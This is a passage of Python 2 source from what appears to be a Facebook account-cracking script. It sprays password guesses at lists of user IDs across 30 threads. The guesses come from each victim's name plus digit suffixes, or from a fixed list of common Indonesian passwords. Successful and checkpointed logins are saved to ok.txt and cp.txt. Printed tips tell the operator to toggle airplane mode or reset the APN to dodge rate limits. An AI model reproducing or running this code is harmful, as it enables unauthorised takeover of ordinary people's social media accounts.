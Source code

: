 					frist=name.split(" ")
					if len(frist)>=6:
						pwcuk = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"1234" ]
					elif len(frist)<=2:
						pwcuk = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"1234" ]
					elif len(frist)<=3:
						pwcuk = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"1234" ]
					else:
						pwcuk = [ "sayang", "bismillah", "anjing", "bangsat", "freefire", "katasandi", "indonesia", "sayangkamu", "doraemon", "merdeka", "sepeda", "kontol", "jembut", "legend", "kuontol", "password", "samsung", "xiaomi", "kacang", "kelinci", "youtube", "facebook" ]
					coeg.submit(xfb, uid, pwcuk)
			hasil()	
			
	elif profers == "5":
		bukanmaen = raw_input("\n%s [%s•%s] Crack With Pass auto/Manual [a/m]\n %s[%s•%s] Choose: "%(p,k,p,p,k,p))
		if bukanmaen in ["m","M"]:
			with ThreadPoolExecutor(max_workers=30) as coeg:
				asu = raw_input("%s [%s•%s] Example password: Pakistan,786786,khankhan\n %s[%s•%s] Pass list: "%(p,k,p,p,k,p)).split(",")
				if len(asu) =="":
					exit("%s [%s!%s] Unknown!"%(p,m,p))
				print("\n%s [%s•%s] Result OK saved to : ok.txt\n %s[%s•%s] Result CP saved to : cp.txt"%(p,k,p,p,k,p))
				print("%s [%s•%s] No result? turn on mode airplane (5 sec)"%(p,k,p))
				print("%s [%s•%s] No result? reset APN connections (5 sec)\n"%(p,k,p))
				for user in id:
					uid, name = user.split("<=>")
					coeg.submit(dfb, uid, asu)
			hasil()
		elif bukanmaen == "a":
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [%s•%s] Result OK saved to : ok.txt\n %s[%s•%s] Result CP saved to : cp.txt"%(p,k,p,p,k,p))
				print("%s [%s•%s] No result? turn on mode airplane (5 sec)"%(p,k,p))
				print("%s [%s•%s] No result? reset APN connections (5 sec)\n"%(p,k,p))
				for user in id:
					uid, name = user.split("<=>")
					frist=name.split(" ")
					if len(frist)>=6:
						pwcuk = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"123456" ]
					elif len(frist)<=2:
						pwcuk = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"123456" ]
					elif len(frist)<=3:
						pwcuk = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"123456" ]
					else:
						pwcuk = [ "sayang", "bismillah", "anjing", "bangsat", "freefire", "katasandi", "indonesia", "sayangkamu", "doraemon", "merdeka", "sepeda", "kontol", "jembut", "legend", "kuontol", "password", "samsung", "xiaomi", "kacang", "kelinci", "youtube", "facebook" ]
					coeg.submit(dfb, uid, pwcuk)
			hasil()	
